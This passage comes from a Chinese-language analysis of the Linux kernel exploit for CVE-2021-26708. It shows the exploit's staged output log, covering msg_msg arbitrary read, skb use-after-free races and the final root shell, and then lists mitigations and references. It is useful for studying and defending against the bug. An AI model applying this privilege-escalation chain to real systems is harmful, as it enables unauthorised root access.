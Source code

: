 ```c
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
[+] go racing, show wins: 0 0 20 15 42 11 
[+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
[+] msgrcv returned 6096 bytes
[+] found a real skb

[+] stage V: try to do UAF on skb at ffff9125c42fa000
[+] skb payload:
	start at 0x7f0d91120004
	skb_shared_info at 0x7f0d91120ec4
	tx_flags 0x8
	destructor_arg 0xffff9125c42fa100
	callback 0xffffffffab64f6d4
	desc 0xffff9125c3fd6e53
[+] go racing, show wins: 15 

[+] stage VI: repeat UAF on skb at ffff9125c42fa000
[+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30 

[+] finish as: uid=0, euid=0
[+] starting the root shell...
uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

#### 9.可能的缓解措施

- （1）开启`SLAB_QUARANTINE`机制就能防止本漏洞被利用，因为竞争条件的时间很短，详情可参考文章[Linux kernel heap quarantine versus use-after-free exploits](https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html) ；
- （2）grsecurity提供的`MODHARDEN` patch 可以防止内核模块被非法用户自动加载；
- （3）将`/proc/sys/vm/unprivileged_userfaultfd`设置为0就能阻断堆喷，只有特权用户（如`SYS_CAP_PTRACE`）才能调用`userfaultfd()`；
- （4）`kernel.dmesg_restrict` sysctl设置为1就能阻断从内核日志泄露信息，可以限制非法用户通过`dmesg`读取内核日志；
- （5）CFI可以阻止执行ROP gadget，详情请参考 [Linux Kernel Defence Map](https://github.com/a13xp0p0v/linux-kernel-defence-map) ；
- （6）未来的Linux内核版本将支持 [ARM Memory Tagging Extension (MTE)](https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety) ，可以缓解ARM中的UAF；
- （7）传说grsecurity有个终极武器叫做`AUTOSLAB`，可能可以根据对象类型来将内核对象分配到单独的slab cache中，这样就无法堆喷了；
- （8）Kees Cook指出将`panic_on_warn` sysctl设置为1就能打乱利用，原本的提权程序只能导致拒绝服务。

---

## 参考

[Four Bytes of Power: exploiting CVE-2021-26708 in the Linux kernel](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html)       [Zer0Con 2021 talk slides](https://a13xp0p0v.github.io/img/CVE-2021-26708.pdf)
